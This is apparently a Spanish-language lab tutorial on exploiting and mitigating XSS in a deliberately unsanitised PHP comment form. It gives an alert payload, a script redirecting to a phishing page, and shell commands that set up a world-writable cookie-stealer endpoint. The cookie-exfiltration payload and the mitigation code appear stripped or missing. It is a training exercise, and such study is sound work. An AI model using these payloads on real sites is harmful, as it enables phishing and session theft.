






# Explotación y mitigación de Cross-Site Scripting (XSS)

## Objetivos

> [1. Conocer las diferentes formas de ataques XSS](#1-conocer-las-diferentes-formas-de-ataques-xss)  
> [2. Realizar varios ataques XSS](#2-realizar-varios-ataques-xss)  
> [3. Implementar modificaciones al código para mitigar los ataques XSS](#3-implementar-modificaciones-al-código-para-mitigar-los-ataques-xss)  

-----

## 1. Conocer las diferentes formas de ataques XSS

Los ataques **XSS (Cross-Site Scripting)** son un tipo de vulnerabilidad en sitios web donde un atacante inyecta código malicioso (normalmente JavaScript) en una página que otros usuarios van a visitar.
El objetivo suele ser robar cookies, sesiones, datos del usuario o redirigir a sitios maliciosos.
Los tipos de ataques XSS mas comunes son:

+ ***XSS reflejado***: el script va en una URL y se ejecuta cuando el usuario accede al enlace.
+ ***XSS almacenado***: el script queda guardado en el servidor (como en un comentario) y se ejecuta cuando alguien ve la página.
+ ***XSS DOM-based***: el script se ejecuta por culpa de cómo la propia página maneja el contenido con JavaScript.


## 2. Realizar varios ataques XSS

Vamos a realizar diferentes pruebas en las que realizamos ataques de XSS a sitios inseguros:

Comenzamos creando un fichero php en nuestro servicio de apache con un pequeño formulario, y sin realizar ningun tipo de validación ni sanitización de la entrada:



Este código muestra un formulario donde el usuario puede ingresar un comentario en un campo de texto. Cuando el usuario envía el formulario, el comentario ingresado se muestra en la pantalla con el mensaje "Comentario publicado: [comentario]".



Si en lugar de introducir un comentario introducimos código *Javascript*, al mostrarse en la página el comentario, el navegador va a interpretar ese código:

Vamos a introducir el siguiente código:

`<script>alert('XSS ejecutado!')</script>`

El navegador lo interpreta y muestra una ventana emergente:



También podemos redirigir a una página de *Phishing* con el siguiente código:

`<script>window.location='https://fakeupdate.net/win11/'</script>`



Ahora vamos a crearnos un fichero en nuestro servicio web para que se almacenen las *coookies* de los usuarios:

```
mkdir /var/www/html/cookieStealer/
touch /var/www/html/cookieStealer/index.php
touch /var/www/html/cookieStealer/cookies.txt
chmod 777 /var/www/html/cookieStealer/cookies.txt
```
Y en el fichero ***index.php*** introducimos el código de [Este archivo](./Recursos/index.php)

Ahora si introducimos el siguiente código Javascript en el formulario:

```
<script>document.write('')</script>`
```
Va a mandar las cookies a nuestro fichero ***index.php***:





## 3. Implementar modificaciones al código para mitigar los ataques XSS

En este apartado vamos a implementar modificaciones en el código php del formulario, que filtren y sanitizen la entrada del usuario, para evitar estos ataques de XSS:


